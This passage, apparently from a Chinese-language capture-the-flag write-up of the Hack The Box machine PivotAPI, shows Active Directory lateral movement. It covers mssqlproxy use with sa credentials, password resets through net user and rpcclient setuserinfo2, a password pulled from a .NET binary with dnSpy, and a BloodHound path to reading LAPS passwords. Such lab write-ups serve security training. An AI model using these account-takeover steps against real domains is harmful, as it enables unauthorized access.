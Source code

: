 `DR.ZAIUSS->SUPERFUME->DEVELOPERS group`，修改密码之后通过evil-winrm登录到用户，进行下一步横移，SUPERFUME用户属于developer组，在jail用户的目录下找到到 .NET 程序`restart-service.exe`

```bash
# Pass@word!123

python mssqlproxy/mssqlclient.py 'sa:#mssql_s3rV1c3!2020@10.10.10.240' -start -reciclador 'c:\programdata\reciclador.dll'

net user DR.ZAIUSS Pass@word!123
net user SUPERFUME Pass@word!123
```

#### dotNET逆向

通过dnspy逆向.NET程序，在main函数中看到一个writeline()函数，用于以文本格式将数据写入标准输出流，设置断点之后右键数据->内存中显示，得到输出的内容

![](https://images.geist-tech.top/PicList/20250806080157368.png)

```bash
Cos@Chung@!RPG
jari，Cos@Chung@!RPG
```

这里mssqlproxy的转发总是有问题，不能正常把端口转发过来，可能是HTB的环境问题。可以换成用`rcpclient`来登录

```bash
rpcclient -U 'jail%Cos@Chung@!RPG' 10.10.10.240
```

bloodhound给出的路径: `jari->GIBDEON->OPERS. DE CUENTAS组->LAPS ADM组->读取PIVOTAPI.LICORDEBELLOTA.HTB的LAPS`

![](https://images.geist-tech.top/PicList/20250806102312436.png)

[通过rcpclient更改用户的密码](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/)

```bash
setuserinfo2 gibdeon 23 'Pass@word!123'
rpcclient -U 'gibdeon%Pass@word!123' 10.10.10.240
```

为什么这里指定的参数是23: [2.2.6.24 SAMPR_USER_INTERNAL4_INFORMATION](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c)

```c++
# SAMPR_USER_INTERNAL4_INFORMATION
 typedef struct _SAMPR_USER_INTERNAL4_INFORMATION {
   SAMPR_USER_ALL_INFORMATION I1;
   SAMPR_ENCRYPTED_USER_PASSWORD UserPassword;
 } SAMPR_USER_INTERNAL4_INFORMATION,
  *PSAMPR_USER_INTERNAL4_INFORMATION;
```

```bash
licordebellota\3v4si0n@PIVOTAPI C:\Users\3v4Si0N>net groups "LAPS READ" /domain
Nombre de grupo     LAPS READ
Comentario

Miembros

-------------------------------------------------------------------------------
cybervaca                lothbrok
Se ha completado el comando correctamente.


licordebellota\3v4si0n@PIVOTAPI C:\Users\3v4Si0N>net groups "LAPS ADM" /domain
Nombre de grupo     LAPS ADM
Comentario

Miembros
```
